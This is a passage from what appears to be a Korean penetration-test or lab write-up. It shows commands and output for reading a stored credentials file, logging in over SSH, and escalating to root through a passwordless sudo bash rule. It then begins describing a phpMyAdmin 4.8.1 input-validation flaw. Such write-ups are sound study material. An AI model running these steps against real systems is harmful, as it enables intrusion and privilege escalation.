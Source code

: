     /.bobbyz_creds.txt
    ```

 - .bobbyz_creds.txt 파일 확인 결과 bobbyz 계정 아이디와 패스워드 확인
    ```sh
    cat ./.bobbyz_creds.txt

    Vault server breakglass creds - bobbyz:qwerty12
    ```
 - SSH를 사용하여 해당 ID로 호스트 로그인 시도
    ```sh
    ssh bobbyz@172.31.249.155

    bobbyz@ip-172-31-249-155:~$ whoami; hostname; id
    bobbyz
    ip-172-31-249-155
    uid=1001(bobbyz) gid=1001(bobbyz) groups=1001(bobbyz)
    ```

 - bobbyz 계정으로 로그인 한 뒤 `sudo -l` 명령어를 사용하여 확인결과 bobbyz 계정은 패스워드 사용없이 bash 쉘 사용 가능
    ```sh
    bobbyz@ip-172-31-249-155:~$ sudo -l
    Matching Defaults entries for bobbyz on ip-172-31-249-155:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User bobbyz may run the following commands on ip-172-31-249-155:
        (ALL) NOPASSWD: /bin/bash
    ```

 - `sudo /bin/bash`명령어를 사용하여 root권한으로 로그인 성공
    ```sh
    bobbyz@ip-172-31-249-155:/$ sudo /bin/bash
    root@ip-172-31-249-155:/# whoami; hostname; id

    root
    ip-172-31-249-155
    uid=0(root) gid=0(root) groups=0(root)
    ```

## 취약점
### 1. phpMyadmin 4.8.1 사용자 입력값 검증 누락
#### 취약점 개요
<table>
  <tr>
    <td> 정보 </td>
    <td> 설명 </td>
  </tr><tr>
    <td> 이름 </td>
    <td> 사용자 입력값 검증 누락 - phpMyAdmin 4.8.1 </td>
  </tr><tr>
    <td> 중요도 </td>
    <td> 상 </td>
  </tr><tr>
    <td rowspan="3"> 위치 </td>
    <td> URL: http://172.31.249.155/phpmyadmin/index.php </td>
    </tr> <tr>
    <td> 요청 파라미터: target </td>
    </tr> <tr>
    <td> 파일 위치: /var/lib/php/sessions/sess_사용자세션ID </td>
    </tr>
  </tr>
</table>
